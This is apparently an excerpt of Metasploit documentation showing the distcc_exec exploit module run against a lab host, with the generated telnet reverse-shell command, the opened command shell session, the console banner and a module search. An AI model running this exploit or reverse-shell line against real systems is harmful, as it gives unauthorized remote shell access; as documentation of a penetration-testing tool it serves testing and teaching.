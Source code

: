 The `run` command will run the module against the target, there is also an aliased `exploit` command which will perform the same action:
```msf
msf6 exploit(unix/misc/distcc_exec) > run rhost=192.168.123.133 lhost=192.168.123.1 payload=cmd/unix/reverse

[+] sh -c '(sleep 4305|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QqL1Uzom6eBFilyL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QqL1Uzom6eBFilyL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.133:52314) at 2023-09-21 13:52:40 +0100

whoami
daemon
```

`msf
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.3.35-dev-0fc88a8050               ]
+ -- --=[ 2357 exploits - 1227 auxiliary - 413 post       ]
+ -- --=[ 1387 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 >
`

`msf
msf6 > search type:auxiliary http html title tag

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/title                   normal  No     HTTP HTML Title Tag Content Grabber
